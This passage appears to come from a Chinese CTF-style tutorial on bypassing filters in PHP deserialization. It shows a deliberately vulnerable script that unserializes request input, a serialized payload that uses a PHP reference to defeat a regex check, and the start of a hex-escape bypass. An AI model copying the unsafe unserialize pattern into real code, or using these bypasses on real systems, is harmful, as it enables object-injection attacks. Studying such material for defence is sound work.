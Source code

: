 ### 利用引用绕过
如下，要求输出 you success，但构造的序列化字符串中不能由 aaa

```php
<?php
class test {
    public $a;
    public $b;
    public function __construct(){
        $this->a = 'aaa';
    }
    public function __destruct(){
 
        if($this->a === $this->b) {
            echo 'you success';
        }
    }
}
if(isset($_REQUEST['input'])) {
    if(preg_match('/aaa/', $_REQUEST['input'])) {
       die('nonono');
    }
    unserialize($_REQUEST['input']);
}else {
    highlight_file(__FILE__);
}
```

### 可以利用引用进行绕过
```php
class test {
    public $a;
    public $b;
    public function __construct(){
        $this->b = &$this->a;
    }
}
$a = serialize(new test());
echo $a;
//O:4:"test":2:{s:1:"a";N;s:1:"b";R:2;}
```

 构造引用使得 $b 和 $a 地址相同从而绕过检测，达成要求。 

### 16进制绕过字符的过滤
序列字符串中表示字符类型的s大写时，会被当成16进制解析。

举个栗子：

```php
<?php
class test{
    public $username;
    public function __construct(){
        $this->username = 'admin';
    }
    public function  __destruct(){
        echo 'success';
    }
}
function check($data){
    if(preg_match('/username/', $data)){
        echo("nonono!!!</br>");
    }
    else{
```